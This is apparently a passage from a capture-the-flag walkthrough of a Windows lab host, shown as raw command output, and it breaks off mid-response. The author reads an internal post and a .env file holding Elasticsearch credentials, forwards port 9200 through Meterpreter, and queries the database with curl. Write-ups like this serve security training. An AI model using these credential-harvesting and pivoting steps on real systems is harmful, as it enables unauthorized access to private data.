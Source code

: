 ```

```
The two services hanging locally on ports 9200 and 9300 are elastic.
```
 Directory of C:\Temp\www\internal\content\posts

06/08/2023  11:20 PM    <DIR>          .
06/08/2023  11:20 PM    <DIR>          ..
06/08/2023  11:18 PM             1,755 first-re-research.md
11/14/2023  12:02 PM    <DIR>          internal-laps-alpha
06/08/2023  11:18 PM               493 no-more-laps.md
               2 File(s)          2,248 bytes
               3 Dir(s)   3,301,855,232 bytes free

C:\Temp\www\internal\content\posts>
```
On the internal i found these 
```
C:\Temp\www\internal\content\posts>type no-more-laps.md
type no-more-laps.md
---
title: "**INTERNAL** Getting rid of LAPS"
description: Replacing LAPS with out own custom solution
date: 2023-07-01
draft: true 
tags: [internal, sysadmin] 
---

# Intro

We are getting rid of LAPS in favor of our own custom solution. 
The password for the `backup` user will be stored in the local Elastic DB.

IT will deploy the decryption client to the admin desktops once it it ready. 

We do expect the development to be ready soon. The Malware RE team will be the first test group. 
```
access on the directory
```
11/14/2023  12:02 PM    <DIR>          internal-laps-alpha
 Directory of C:\Temp\www\internal\content\posts\internal-laps-alpha

11/14/2023  12:07 PM    <DIR>          .
11/14/2023  12:07 PM    <DIR>          ..
06/08/2023  11:28 PM                82 .env
06/08/2023  11:20 PM        12,697,088 a.exe

C:\Temp\www\internal\content\posts\internal-laps-alpha>type .env
type .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here

ELASTICURI=https://127.0.0.1:9200

```
found user and password for the elastic.
port forward the 9200 port `portfwd add -l 10100 -p 9200 -r 127.0.0.1`
```
meterpreter > portfwd add -l 9200 -p 9200 -r 127.0.0.1
[*] Forward TCP relay created: (local) :9200 -> (remote) 127.0.0.1:9200

```
```
$ curl -k -u "user:pass" -X GET https://127.0.0.1:9200
{
```